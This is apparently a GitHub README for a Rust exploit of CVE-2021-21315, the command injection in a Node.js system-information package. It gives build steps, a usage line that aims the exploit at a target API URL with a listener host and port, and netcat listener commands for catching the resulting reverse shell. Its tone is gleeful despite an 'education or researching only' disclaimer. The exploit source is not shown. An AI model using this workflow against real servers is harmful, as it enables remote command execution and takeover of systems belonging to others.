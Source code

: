 # the CVE-2021-21315's exploit code wrote with Rust lang

I'm rust noob so this code was my part of RustLang practices

Yes!!Let's Get the reverse shell!!!!!!!!!!

[!]for education or researching only

# Build
  ```
  cargo build
  
  ```

# Usage

  ```
  ./exploit <targetURL/path/of/api> <LHOST> <LPORT>
  
  ./exploit http://target.com/api/osinfo?param 172.17.2.1 1234   
  ```
  
# need Netcat for Listener to catch reverse shell
  ```
  
  nc -nlvp <lport>
  nc -nlvp 1234
  ```
  
  
![alt text](https://github.com/Ki11i0n4ir3/gifs/blob/main/daddy.gif)
